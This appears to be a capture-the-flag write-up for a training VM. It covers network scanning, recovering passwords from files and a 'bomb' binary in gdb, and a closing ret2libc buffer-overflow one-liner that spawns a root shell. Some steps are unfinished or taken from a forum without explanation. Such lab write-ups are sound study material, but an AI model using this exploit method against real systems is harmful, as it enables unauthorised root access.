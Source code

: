 -------------------------------------------------------------------------------

The following method describes a user/privilege escalation.

-------------------------------------------------------------------------------

##First we need to find the IP address of our VM

```ifconfig```

```vmnet8: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
	ether 00:50:56:c0:00:08
	inet 192.168.80.1 netmask 0xffffff00 broadcast 192.168.80.255
```
* Now we scan this IP with nmap

```
nmap 192.168.80.1-255
```

```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-22 14:14 CET
Nmap scan report for 192.168.80.1
Host is up (0.00019s latency).
Not shown: 967 closed ports, 32 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 192.168.80.128
Host is up (0.00053s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```
* The machine with the most ports open is the one we are looking for...
* In this example : 192.168.80.128

* Now we need to get access to the file system of the ISO.
* Among other files, this ISO contains the following one : "filesystem.squashfs".
* This is actually the whole compressed file system.
* To decompress and extract it we can use "squashfs".

```unsquashfs -f -d /path/to/destination/ /path/to/source/filesystem.squashfs```

* Directory : /home/lmezard/
-------------------------------------------------------------------------------

* In /home/lmezard/ we find 2 files.

```
cd /home/lmezard/ ; ls
fun  README
```
* The fun file is actually an archive...

```
file fun
fun: POSIX tar archive (GNU)
```

* Decompressing it produces a new directory called "ft_fun".

```
tar xvf fun ; ls
ft_fun  fun  README
```

* "ft_fun" directory contains a fuck tone of files...
* We notice that each one of them is written in C language and its last line is tagged with a comment like so
//file3
//file235
...

* We can then make a little PHP script to read them and recompose the original C file, compile the file and execute it.

```
php pack.php && gcc main.c && ./a.out
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
```

* If we sha256 this password we obtain :

```330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4```

* We can now connect with ssh as "laurie".

* Directory : /home/laurie/
-------------------------------------------------------------------------------

* Once connected with ssh as "laurie", let's find out where we are and what we have.

```
pwd ; ls
/home/laurie
README  bomb
```
* To crack the bomb binary we will use gdb as fuck...
* For each step we will use the following command : 

``` (gdb) disas phase_N```

### Phase 1 : "Public speaking is very easy."

* The address 0x80497c0 is pushed on the stack and contains the string "Public speaking is very easy.".
* The function strings_not_equal is called right after with 2 arguments, our input line and this string.
Obvious ...

### Phase 2 : "1 2 6 24 120 720"

* The function read_six_numbers expects 6 integers from input line separated by white spaces.
* It checks whether the 1st number is a 1.
* Then the next number must be the current number multiplied by the next position on the string.

```
1 at position 2 = 2
2 at position 3 = 6
6 at position 4 = 24
...
```
### Phase 3 : "1 b 214"

* The address 0x80497de is push on the stack before a call to sscanf and contains the string "%d %c %d".
* We need to pass 3 arguments according to sscanf format string.
[[ TO BE FINISHED ]]

### Phase 4 : "9"

* The address 0x8049808 is push on the stack before a call to sscanf and contains the string "%d".
* At 0x08048d1d, %eax register must be equal to 0x37.
* Within a few tries, we find the solution ...

### Phase 5 : "opekmq"

* The input string must be 6 bytes long and is compared to "giants" (0x804980b).
* At 0x08048d7b we find this string "isrveawhobpnutfg".
* If we compare it to the alphabet we can see the following pattern.

``` 
abcdefghijklmno
pqrstuvwxyz
```
----------------
isrveawhobpnutfg

* Meaning for example that 'a' => 's', 'b' => 'r', 'p' => 'i'...
* We just have to matches the right characters that translate to : "g i a n t s".

### Phase 6 : "4 2 6 3 1 5"

* Phase bonus :
	 Phase 4 : "9 austinpowers"
	 Secret phase: "1001"

* In the end the whole concatenated password is :
"Publicspeakingisveryeasy.126241207201b2149opekmq426315"

* But according to the forum, the characters at len-2 and len-3 must be switched, so to connect with ssh as "thor" we must use :
"Publicspeakingisveryeasy.126241207201b2149opekmq426135"

Directory : /home/thor/
-------------------------------------------------------------------------------

In this directory we find two files

```
ls
README  turtule
```

* The file turtule is actually a draw map for letters that gives us : SLASH
* It is said in the README to be used with 'zaz' user.
* Encrypting it in sha1-2-256 didn't work so we try in md5 and... it works !

```646da671ca01bb5d84dbb5fb2238dc8e```

* We can now connect with ssh as "zaz".

Directory : /home/zaz/
-------------------------------------------------------------------------------

In this directory we find

```
ls
exploit_me  mail
```
* If we open exploit_me into gdb we notice that we can use a buffer overflow at 140 bytes to overwrite the %eip register.

```./exploit_me $(python -c "print('A' * 140)")
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```
* Since the file is root file, we can spwan a root shell with a ret2libc attack.
* We use gdb to find the address of system function, "/bin/bash" string and the idea is :
	- overwrite the %eip register with the system address from libc
	- put on the stack at %eip+8 the "/bin/sh" address

* Using python, that gives us :

$ ./exploit_me $(python -c "print('A' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'AAAA' + '\xb7\xf8\xcc\x58'[::-1])")
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)

# TADAM WE ARE ROOT !

